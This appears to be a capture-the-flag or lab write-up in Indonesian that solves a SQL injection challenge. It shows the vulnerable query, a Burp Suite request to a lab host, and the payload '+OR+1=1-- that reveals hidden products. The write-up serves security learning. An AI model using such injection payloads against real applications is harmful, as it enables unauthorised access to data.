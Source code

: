# SQL Injection in WHERE Clause (Retrieve Hidden Data)

## Challenge Overview

**Title:** SQL Injection in WHERE Clause (Retrieve Hidden Data)

**Category:** Injection

Lab ini memiliki kerentanan **SQL Injection** pada filter kategori produk. Query SQL yang dijalankan aplikasi mengambil data produk berdasarkan kategori tertentu, namun input tidak divalidasi dengan benar. Dengan melakukan injection, kita dapat memodifikasi query untuk menampilkan produk yang seharusnya tersembunyi (unreleased).

---

## Tools Used

* **Web Browser** – Untuk mengakses aplikasi.
* **Burp Suite** – Untuk mengintersep dan memodifikasi HTTP request.

---

## Step by Step Solution

### 1. Analisis Query Asli

Saat memilih kategori "Gifts", aplikasi menjalankan query seperti berikut:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```

`released = 1` memastikan hanya produk yang sudah dirilis yang tampil.

---

### 2. Intersep Request dengan Burp Suite

Gunakan Burp Suite untuk menangkap request ketika memilih kategori.
Contoh request asli:

```http
GET /filter?category=Gifts HTTP/1.1
Host: acme.lab
Cookie: session=xyz
```
![alt text](assets/mandiri1.jpg)
![alt text](assets/mandiri2.jpg)

---

### 3. Modifikasi Parameter `category`

Untuk mengeksploitasi SQLi, kita tambahkan kondisi `OR 1=1` sehingga query menjadi:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1;
```

Payload yang dipakai:

```
'+OR+1=1--
```

Request hasil modifikasi:

```http
GET /filter?category='+OR+1=1-- HTTP/1.1
Host: acme.lab
Cookie: session=xyz
```

---

### 4. Kirimkan Request

Setelah request dikirimkan, server merespons dengan menampilkan **semua produk**, termasuk yang sebelumnya tersembunyi (unreleased).

![alt text](assets/mandiri3.jpg)
